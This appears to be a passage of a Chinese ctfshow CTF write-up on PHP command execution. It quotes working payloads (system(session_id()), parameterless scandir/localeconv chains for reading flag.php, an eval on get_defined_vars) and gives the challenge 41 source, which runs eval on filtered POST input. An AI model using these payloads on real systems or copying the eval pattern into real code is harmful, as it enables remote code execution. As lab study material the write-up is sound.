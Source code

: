 > 看下hint中的做法：
>
> ```
> ?c=session_start();system(session_id());
> passid=ls
> ```
>
> 还有俺以前记的笔记，
> 详情看yu师傅的博客：[ctfshow web入门 命令执行部分 （37-40）_羽的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/108415301)
>
> ```
> 无参数命令执行：
> 方法1、下述思路就是先利用变量获取flag.php，再将其显示出来
> scandir(目录,[0|1:升|降序],[context])——列出指定路径中的文件和目录localeconv()——返回一包含本地数字及货币格式信息的数组,数组第一项是.
> current()——返回数组中的当前元素值, 默认取第一个值，别名为pos()
> array_reverse()——逆向输出数组
> array_flip()交换数组的键和值
> array_rand()从数组随机一个或多个单元，不断刷新访问就会不断随机返回
> 
> payload:
> show_source(next(array_reverse(scandir(pos(localeconv())))));
> highlight_file(next(array_reverse(scandir(current(localeconv())))));
> highlight_file(array_rand(array_flip(scandir(current(localeconv())))));
> highlight_file(next(array_reverse(scandir(current(localeconv())))));
> 
> 方法2、eval(arrar_pop(next(get_defined_vars())));  +post传参 
> ```
>
> 

## 41-无字母数字rce

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```
